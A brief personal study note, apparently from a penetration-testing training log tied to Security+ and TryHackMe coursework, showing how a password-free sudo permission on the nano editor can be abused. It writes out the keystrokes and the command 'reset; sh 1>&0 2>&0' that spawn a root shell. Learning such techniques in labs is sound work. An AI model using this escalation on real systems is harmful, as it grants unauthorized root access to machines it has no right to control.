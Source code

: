 # Exploiting Nano

* **author**:: Nathan Acks
* **date**:: 2022-04-21

If `nano` is allowed to be run via `sudo` without a password, you can use the following to break out into a root shell:

* `CTRL+R` (read file)
* `CTRL+X` (execute file)
* `reset; sh 1>&0 2>&0`

Boom!

* [2022-04-20 — ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)

